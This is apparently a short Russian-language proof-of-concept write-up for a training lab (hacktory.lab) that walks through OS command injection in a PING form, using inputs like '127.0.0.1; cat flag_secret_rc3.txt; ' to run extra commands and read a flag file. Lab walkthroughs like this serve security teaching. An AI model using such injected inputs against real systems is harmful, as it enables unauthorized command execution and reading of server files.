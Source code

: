 # PoC

- откройте в браузере `http://www.hacktory.lab`
- на вкладке PING напишите `127.0.0.1; ls; `
- получаем первый флаг - `ping -c 1 127.0.0.1` 
- далее сможем прочитать файл с флагом на сервере
- читаем файл на сервере командой - `127.0.0.1; cat flag_secret_rc3.txt; `
- получаем второй флаг - `rC3_flag`

